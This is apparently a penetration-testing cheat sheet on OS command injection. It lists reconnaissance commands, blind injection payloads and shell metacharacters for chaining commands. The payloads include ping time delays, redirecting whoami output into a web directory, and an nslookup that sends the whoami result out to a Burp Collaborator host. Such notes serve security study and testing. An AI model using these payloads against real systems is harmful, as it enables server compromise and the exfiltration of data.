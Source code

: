 ```yaml
---
description: Operating System Command/shell injection.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# OS Command Injection

OS command injection (also known as shell injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## <mark style="color:red;">Useful commands</mark>

| Purpose of command    |     Linux     |    Windows    |
| --------------------- | :-----------: | :-----------: |
| Name of current user  |     whoami    |     whoami    |
| Operating system      |    uname -a   |      ver      |
| Network configuration |  ifconfig -a  | ipconfig /all |
| Network connections   | netstat -tunl |  netstat -an  |
| Running processes     |     ps -ef    |    tasklist   |

## <mark style="color:red;">Blind OS command injection</mark>

<table><thead><tr><th width="295">Method</th><th>Command</th></tr></thead><tbody><tr><td>Time delays</td><td><pre><code>&#x26;ping -c 10 127.0.0.1
</code></pre><pre><code>||ping+-c+10+127.0.0.1+||
</code></pre></td></tr><tr><td>Redirecting output</td><td><pre><code>||whoami>/var/www/images/output.txt||
</code></pre></td></tr><tr><td>Out-Of-Band (OOB)<br>DNS lookup. You can use Burp Collaborator</td><td><p></p><pre><code>||nslookup+`whoami`.x.burpcollaborator.net||
</code></pre><pre><code>||nslookup+x.burpcollaborator.net||
</code></pre></td></tr></tbody></table>

## <mark style="color:red;">Useful meta characters</mark>

```
&
&&
|
||
;
Newline (0x0a or \n)
`injected command `
$( injected command )
```
